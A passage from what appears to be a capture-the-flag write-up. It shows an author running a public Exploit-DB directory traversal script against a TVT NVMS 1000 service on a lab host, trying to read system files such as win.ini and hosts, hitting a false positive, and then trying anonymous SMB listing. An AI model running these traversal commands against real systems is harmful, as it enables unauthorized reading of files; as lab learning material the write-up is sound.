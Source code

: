 ```
File Type: UTF-8 Unicode text, with CRLF line terminators

$ searchsploit -p 48311
  Exploit: TVT NVMS 1000 - Directory Traversal
      URL: https://www.exploit-db.com/exploits/48311
     Path: /usr/share/exploitdb/exploits/hardware/webapps/48311.py
File Type: UTF-8 Unicode text, with CRLF line terminators
```

So let's see if the directory traversal works, I have to use `dos2unix` to
convert CRLF to LF (Windows to Linux).

```
$ cat /usr/share/exploitdb/exploits/hardware/webapps/48311.py | dos2unix -c iso -q | python2 -
dos2unix: active code page: 0

Usage : python exploit.py url filename outputname
Example : python exploit.py http://10.10.10.10/ windows/win.ini win.ini

$ cat /usr/share/exploitdb/exploits/hardware/webapps/48311.py | dos2unix -c iso -q | python2 - http://10.10.10.184/ windows/win.ini win.ini
dos2unix: active code page: 0
Host not vulnerable to Directory Traversal!
```

It failed but maybe because `C:\windows\win.ini` doesn't exist. Let's try with
something more reliable like the host file.

```
$ cat /usr/share/exploitdb/exploits/hardware/webapps/48311.py | dos2unix -c iso -q | python2 - http://10.10.10.184/ Windows/System32/drivers/etc/hosts hosts.txt
dos2unix: active code page: 0

Directory Traversal Succeeded

Saving Output

$ cat hosts.txt
<?xml version="1.0" encoding="UTF-8"?>
<response>      <status>fail</status>
        <errorCode>536870934</errorCode>
</response>
```

It's a false positive occurring when there isn't an file extension.
(At first glance it's seems the exploit is not working or the server is
not vulnerable).

### Network reconnaissance: SMB

From [Nmap][nmap] script it's it is SMBv2 but we can't list any shares:

```
$ smbclient -L 10.10.10.184 -N
session setup failed: NT_STATUS_ACCESS_DENIED
```
